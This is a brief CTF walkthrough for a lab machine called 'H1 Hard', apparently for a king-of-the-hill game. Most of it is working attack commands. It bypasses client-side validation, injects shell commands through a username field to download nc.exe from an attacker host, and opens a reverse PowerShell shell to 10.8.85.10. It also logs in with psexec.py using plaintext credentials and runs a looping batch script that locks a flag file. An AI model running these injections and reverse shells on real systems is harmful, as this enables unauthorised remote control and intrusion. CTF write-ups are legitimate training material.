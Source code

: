 # H1 Hard
## Method 1
1. goto -> `http://$IP/signup` and sign up.
2. `profile -> change username`
3. Right Click -> Inspect -> Netwok -> Right Click to script.js and click to Block URL
4. `cd webserver; python -m http.server 8080`.
5. Paste `jin | powershell curl YOUR_IP:8000/nc.exe -o nc.exe` to change username
6. Paste `nc -nvlp 45789` on your terminal and execute
2. Paste `jin | nc.exe 10.8.85.10 45789 -e powershell` to change username
## Method 2
1. Paste `python3 psexec.py hard.thm/achilles:winniethepooh@hard.thm` to terminal

## Defence
```bash
@echo off
:x
attrib -a -s -r -i C:\king.txt&echo YourNickHere > C:\king.txt&attrib +a +s +r +i C:\king.txt
goto x
```
